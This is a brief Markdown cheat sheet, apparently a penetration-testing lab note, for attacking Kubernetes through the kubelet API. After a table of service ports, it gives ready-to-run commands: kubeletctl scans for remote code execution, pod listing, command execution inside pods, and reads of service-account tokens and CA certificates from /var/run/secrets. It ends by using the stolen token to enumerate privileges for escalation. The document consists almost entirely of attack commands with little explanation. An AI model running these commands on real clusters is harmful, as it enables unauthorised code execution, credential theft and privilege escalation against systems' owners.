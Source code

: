 
| **Service**             | **TCP Ports**  |
| ----------------------- | -------------- |
| `etcd`                  | `2379`, `2380` |
| `API server`            | `6443`         |
| `Scheduler`             | `10251`        |
| `Controller Manager`    | `10252`        |
| `Kubelet API`           | `10250`        |
| `Read-Only Kubelet API` | `10255`        |
# Kubelet API 
## Available Commands
```shell-session
$ kubeletctl -i --server <IP> scan rce
```
## Extract Pods
```shell-session
$ curl https://<IP>:10250/pods -k | jq .
$ kubeletctl -i --server 10.129.10.11 pods
```
## Execute Commands
```shell-session
$ kubeletctl -i --server <IP> exec "id" -p nginx -c nginx
```
## Extract Tokens
```shell-session
$ kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```
## Extract Certificates
```shell-session
$ kubeletctl --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```
## List Privileges
Using the token extracted above:
```shell-session
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
```
# API Server Interaction
```shell-session
$ curl https://10.129.10.11:6443 -k
```

# Privilege Escalation
Obtain the Kubernetes service account's `token` and `certificate` (`ca.crt`) from the server. Refer [[#Extract Tokens]] and [[#Extract Certificates]].